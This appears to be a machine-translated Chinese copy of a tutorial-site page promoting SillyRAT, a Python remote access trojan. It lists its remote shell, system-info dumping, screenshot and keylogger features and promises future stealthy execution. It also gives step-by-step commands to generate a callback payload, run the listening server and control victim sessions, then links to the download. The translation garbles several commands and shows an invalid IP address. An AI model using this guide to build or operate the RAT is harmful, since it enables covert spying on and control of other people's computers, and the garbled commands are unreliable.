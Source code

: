 # SillyRAT:一种跨平台多功能(Windows/Linux/Mac) RAT

> 原文：<https://kalilinuxtutorials.com/sillyrat/>

[![](img//95d354fe8d7ad45309471e2f3a7f1f28.png)](https://blogger.googleusercontent.com/img/a/AVvXsEjuRDFwjeyEJItTwIg2_Hniq7fKObpoAYneXZ57gOyfVpkeUpDqwFYrmLsTtrNzJIW51FXcw_skttW8rvhaLPD-ND2rwDt2nO4P21WkGR3aBX_5ni4jqiCQU9mkTwe1QScVCCsim8K9j3jTyohVwZSRbJsdUzweD2ggtn_Cu6mafYWJMGZZswJIrTl-=s728)

**SillyRAT** 是纯 Python 写的跨平台 RAT。RAT 接受带有参数的命令，或者作为接受连接的服务器，或者作为与服务器建立连接的客户端/目标。**生成**命令使用模块 **pyinstaller** 来编译实际的有效载荷代码。因此，为了为您各自的平台生成有效载荷文件，您需要在生成文件时在那个平台上。此外，您还可以直接获取源文件。

**特色**

*   用于命令执行的内置外壳
*   转储系统信息，包括驱动器和内存
*   截图模块。捕获客户端屏幕截图。
*   连接循环(将在连接到服务器时继续)
*   目前，它使用 BASE64 编码。
*   纯 Python
*   跨平台。(在 Linux 上测试。接受错误)
*   包含用于测试的源文件
*   python3

****未来****

 ***   秘密执行
*   加密
*   存储上次尝试的会话
*   当客户端连接时推送通知

装置

该工具在装有 **Python 3.8** 的 **Parrot OS** 上进行测试。按照以下步骤进行安装:

**$ git 克隆 https://github.com/hash3liZer/SillyRAT.git
$ CD SillyRAT/
$ pip 3 install-r requirements . txt**

**文档**

**生成有效载荷**

您可以通过两种方式获取有效负载文件:

*   源文件
*   编译文件

源文件在所有平台上都保持不变。所以，你可以在一个平台上生成它，在另一个平台上使用它。获取源文件:

**$ python 3 server . py generate–地址 134 . 276 . 92 . 1–端口 2999–output/tmp/payload . py–source**

编译版本必须在各自的平台上生成。例如，您不能生成。Linux 上的 exe 文件。你特别需要在 Windows 上。该工具仍在测试中。所以，各种错误都是可以接受的。不过，一定要打开一个问题。为 Linux 生成编译版本:

**$ python 3 server . py generate–地址 134 . 276 . 92 . 1–端口 2999–output/tmp/filer**

![](img//495f64c77a792cc6a650814afef360bc.png)

在上述命令中替换您的 IP 地址和端口。

**运行服务器**

服务器必须在 Linux 上执行。你可以买一个 VPS 或者云服务器来连接。根据记录，服务器不会存储上次运行后的任何会话。因此，一旦服务器应用程序终止，所有的进程都将丢失。运行您的服务器:

**$ python 3 silly rat . py bind–地址 0 . 0 . 0 . 0–端口 2999**

**连接**

所有连接将在**会话**命令下列出:

**$ sessions**

![](img//d95651d5fd1544a5c0bb0a4267b1437b.png)

您可以使用 **connect** 命令连接到您的目标会话，并启动其中一个可用命令:

**$连接 ID
$键盘记录器在
$键盘记录器转储
$截图**

![](img//e44acaa540de8868b1246115b34b9a56.png)

**帮助**

获取可用命令的列表:

**$ help**

特定命令的帮助:

**$ help 命令**

[**Download**](https://github.com/hash3liZer/SillyRAT)**